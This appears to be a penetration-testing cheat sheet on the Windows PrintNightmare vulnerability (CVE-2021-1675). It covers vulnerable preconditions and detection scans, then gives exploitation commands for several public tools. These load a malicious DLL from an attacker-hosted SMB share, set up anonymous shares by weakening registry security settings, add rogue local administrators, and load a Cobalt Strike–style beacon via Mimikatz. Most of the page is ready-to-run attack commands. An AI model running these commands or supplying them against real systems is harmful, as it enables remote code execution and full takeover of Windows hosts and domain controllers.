 # PrintNightmare

[CVE-2021-1675](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-1675) is a critical remote code execution and local privilege escalation vulnerability dubbed "PrintNightmare."

The print spooler service is vulnerable to remote code execution that leverages a compromised user account, either domain-joined or local account, to take full control of a system as the NT SYSTEM user. Proof-of-concept (PoC) code has been made publicly available for this new vulnerability leaving every Windows system at extreme risk. An adversary exploiting this vulnerability can leverage a domain-joined account, regardless of permissions, to take full control as NT SYSTEM on any domain-joined Windows system. This includes servers and Domain Controllers. An adversary exploiting this vulnerability can also leverage a local account to take full control as NT SYSTEM on any Windows system that the local account is valid.

## Requirements

* **Spooler Service** enabled (Mandatory)
* Server with patches < June 21
* DC with `Pre Windows 2000 Compatibility` group
* Server with registry key `HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint\NoWarningNoElevationOnInstall` = (DWORD) 1
* Server with registry key `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA` = (DWORD) 0

## Detection

We can use `rpcdump.py` from impacket to scan for potential vulnerable hosts, if it returns a value, it could be vulnerable

```
# impacket
python3 ./rpcdump.py @10.0.2.10 | egrep 'MS-RPRN|MS-PAR'
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol



# it was all a dream
git clone https://github.com/byt3bl33d3r/ItWasAllADream
cd ItWasAllADream && poetry install && poetry shell
itwasalladream -u user -p Password123 -d domain 10.10.10.10/24
docker run -it itwasalladream -u username -p Password123 -d domain 10.10.10.10
```

## Tools

{% embed url="https://github.com/cube0x0/CVE-2021-1675" %}

{% embed url="https://github.com/calebstewart/CVE-2021-1675" %}

{% embed url="https://github.com/calebstewart/CVE-2021-1675" %}

{% embed url="https://github.com/outflanknl/PrintNightmare" %}

## Exploitation

#### here we use the [python exploit](https://github.com/cube0x0/CVE-2021-1675) because it can do the job remotely.

```
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

```
CVE-2021-1675.py [-h] [-hashes LMHASH:NTHASH] [-target-ip ip address] [-port [destination port]] target share
```

### SMB configuration

#### Easiest way to host payloads is to use samba and modify `/etc/samba/smb.conf` to allow anonymous access

```
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[smb]
    comment = Samba
    path = /tmp/
    guest ok = yes
    read only = no
    browsable = yes
    force user = smbuser
```

#### From windows it's also possible

```
mkdir C:\share
icacls C:\share\ /T /grant Anonymous` logon:r
icacls C:\share\ /T /grant Everyone:r
New-SmbShare -Path C:\share -Name share -ReadAccess 'ANONYMOUS LOGON','Everyone'
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f #This will overwrite existing NullSessionPipes
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 0 /f
# Reboot
```

#### example:

```
python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
```

### other methods

[SharpNightmare](https://github.com/cube0x0/CVE-2021-1675)

```
# require a modified Impacket: https://github.com/cube0x0/impacket
python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
## LPE
SharpPrintNightmare.exe C:\addCube.dll
## RCE using existing context
SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' 'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_addb31f9bff9e936\Amd64\UNIDRV.DLL' '\\192.168.1.20'
## RCE using runas /netonly
SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll'  'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL' '\\192.168.1.10' hackit.local domain_user Pass123
```

[Invoke-Nightmare](https://github.com/calebstewart/CVE-2021-1675)

```
## LPE only (PS1 + DLL)
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare # add user `adm1n`/`P@ssw0rd` in the local admin group by default
Invoke-Nightmare -DriverName "Dementor" -NewUser "d3m3nt0r" -NewPassword "AzkabanUnleashed123*" 
Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"
```

[Mimikatz v2.2.0-20210709+](https://github.com/gentilkiwi/mimikatz/releases)

```
## LPE
misc::printnightmare /server:DC01 /library:C:\Users\user1\Documents\mimispool.dll
## RCE
misc::printnightmare /server:CASTLE /library:\\10.0.2.12\smb\beacon.dll /authdomain:LAB /authuser:Username /authpassword:Password01 /try:50
```

[PrintNightmare - @outflanknl](https://github.com/outflanknl/PrintNightmare)

```
PrintNightmare [target ip or hostname] [UNC path to payload Dll] [optional domain] [optional username] [optional password]
```
